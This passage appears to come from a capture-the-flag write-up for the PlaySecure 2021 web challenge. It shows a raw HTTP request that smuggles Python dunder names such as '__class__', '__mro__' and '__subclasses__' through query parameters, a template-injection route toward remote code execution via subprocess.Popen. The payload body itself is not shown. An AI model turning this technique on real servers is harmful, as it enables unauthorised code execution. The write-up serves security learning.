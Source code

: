
subprocess.Popen

![wc16](/assets/playsecure2021/wc16.png)


**Remote Code Execution**

![wc17](/assets/playsecure2021/wc17.png)

{% raw %}
```python
POST /generate?class=__class__&mro=__mro__&getitem=__getitem__&sc=__subclasses__ HTTP/1.1
Host: web.ps.ctf.ae:8882
Content-Length: 357
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://web.ps.ctf.ae:8882
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.ps.ctf.ae:8882/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```